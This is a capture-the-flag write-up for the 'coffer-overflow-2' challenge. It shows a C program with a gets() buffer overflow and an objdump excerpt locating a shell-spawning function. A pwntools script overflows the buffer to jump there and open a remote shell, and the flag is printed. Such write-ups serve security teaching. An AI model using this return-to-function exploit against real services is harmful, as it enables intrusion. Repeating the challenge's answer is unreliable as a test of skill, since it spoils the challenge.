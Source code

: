 # pwncoffer-overflow-2

## Challenge

"You'll have to jump to a function now!

nc 2020.redpwnc.tf 31908"

You can download the problem files here [coffer-overflow-2](coffer-overflow-2)[coffer-overflow-2.c](coffer-overflow-2.c)

## Process

Coffer-overflow is title that implies a buffer overflow attack. I opened up the .c file and looked for anything interesting.

```
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);
}

void binFunction() {
  system("/bin/sh");
}
```

The lines below are important to the buffer overflow. You can obtain shell capabilities if you jump into the function binFunction(). 

```
  gets(name);
...
void binFunction() {
  system("/bin/sh");
```

I than ran an object dump on the given elf file to find the address of the function binFunction(). You can look at the entire dump here [dump.txt](dump.txt).

```
$ objdump -d coffer-overflow-2 > dump.txt
```

The important part of the dump is the address of binFunction(), which is 0x00000000004006e6

```
00000000004006e6 <binFunction>:
  4006e6:	55                   	push   %rbp
  4006e7:	48 89 e5             	mov    %rsp,%rbp
  4006ea:	48 8d 3d 12 01 00 00 	lea    0x112(%rip),%rdi        # 400803 <_IO_stdin_used+0x83>
  4006f1:	b8 00 00 00 00       	mov    $0x0,%eax
  4006f6:	e8 75 fe ff ff       	callq  400570 <system@plt>
  4006fb:	90                   	nop
  4006fc:	5d                   	pop    %rbp
  4006fd:	c3                   	retq   
  4006fe:	66 90                	xchg   %ax,%ax
```

I wrote the following [python script](payloader.py) in order to jump into the function binFunction().

```
from pwn import * 
connection = remote('2020.redpwnc.tf', 31908)
# offset is allocated + 8
offset = 16+8
# through objdump -d we found the address of binFunction() as 0x00000000004006e6
# through objdump -d we know this is 64 bit
address = p64(0x00000000004006e6)
#perform the bufferoverflow itself
connection.sendline('a'*offset + address)
#after performing the buffer overflow we still need to cat the flag
connection.interactive()
# flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```

After running the script you obtain shell capabilities. The flag can then be found and displayed.

![Capture.JPG](Capture.JPG)

The flag is flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}.